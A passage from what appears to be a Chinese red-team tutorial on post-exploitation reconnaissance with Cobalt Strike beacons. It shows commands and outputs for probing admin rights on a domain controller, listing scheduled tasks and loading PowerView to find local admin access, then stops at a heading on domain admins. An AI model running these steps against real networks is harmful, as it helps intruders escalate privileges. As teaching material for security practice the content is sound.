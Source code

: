 ```powershell
#一般账号运行结果
beacon> shell dir \\WinDC\C$
[*] Tasked beacon to run: dir \\WinDC\C$
[+] host called home, sent: 55 bytes
[+] received output:
拒绝访问。
```

也可以运行其他命令，比如运行下面的 `at` 命令来查看系统上的计划任务列表，如果显示出了任务列表信息，那么可能是本地管理员。（当任务列表没有信息时会返回 “列表是空的” 提示）

```powershell
shell at \\host
```

```powershell
#管理员账号运行结果
beacon> shell at \\WinDC
[*] Tasked beacon to run: at \\WinDC
[+] host called home, sent: 51 bytes
[+] received output:
状态 ID     日期                    时间          命令行
-------------------------------------------------------------------------------
        1   今天                    22:30         E:\Install\Thunder\Thunder.exe
```

```powershell
#一般账号运行结果
beacon> shell at \\WinDC
[*] Tasked beacon to run: at \\WinDC
[+] host called home, sent: 51 bytes
[+] received output:
拒绝访问。
```

在上一节讲述的 `PowerView` 有很多很好的自动操作来帮助解决这些问题。可以在加载 `PowerView` 后，运行下面的命令，通过 `PowerView` 可以快速找到管理员账号。

```powershell
powershell Find-LocalAdminAccess
```

```powershell
beacon> powershell-import powerview.ps1
[*] Tasked beacon to import: powerview.ps1
[+] host called home, sent: 101224 bytes

beacon> powershell Find-LocalAdminAccess
[*] Tasked beacon to run: Find-LocalAdminAccess
[+] host called home, sent: 329 bytes
[+] received output:
WinDC.teamssix.com
```

#### 域管理员账号

第二个关键步骤，发现域管理员账号。

**列出域管理员**
